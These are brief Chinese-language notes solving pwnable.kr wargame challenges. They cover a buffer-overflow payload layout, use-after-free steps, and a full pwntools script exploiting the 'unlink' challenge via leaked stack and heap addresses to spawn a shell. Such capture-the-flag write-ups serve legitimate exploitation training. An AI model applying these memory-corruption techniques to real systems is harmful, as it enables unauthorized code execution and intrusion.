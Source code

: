 pwn kr
  - bof(buffer overflow)
    - gdb 调试显示 距离 52 + address
    - payload = 52 * 'A' + address
  - uaf(use after free)
    - main中定义了两个类，然后输入3先free掉
    - 在输入2中输入payload, 因为use after free
    - 其中注意下introduce函数是按栈的顺序进行的， payload要注意这一点
    - 所以我们需要再次分配下
    - 再输入payload后，在输入1，即可运行我们的payload
    - [参考链接](http://blog.csdn.net/qq_20307987/article/details/51511230)
  - unlink
    - 因为是双链表结构，
    - 所以溢出之后还需要把溢出后的地址改一下
    - poc如下
```python
from pwn import *
context(log_level="debug")

shell_addr = 0x080484eb

s =  ssh(host='pwnable.kr',
         port=2222,
         user='unlink',
         password='guest'
        )
p = s.process("./unlink")
p.recvuntil("here is stack address leak: ")
stack_addr = p.recv(10)
stack_addr = int(stack_addr,16)
p.recvuntil("here is heap address leak: ")
heap_addr = p.recv(9)
heap_addr = int(heap_addr,16)
payload = p32(shell_addr)
payload += 'a'*12
payload += p32(heap_addr + 12)
payload += p32(stack_addr + 0x10)
p.send(payload)
p.interactive()
```
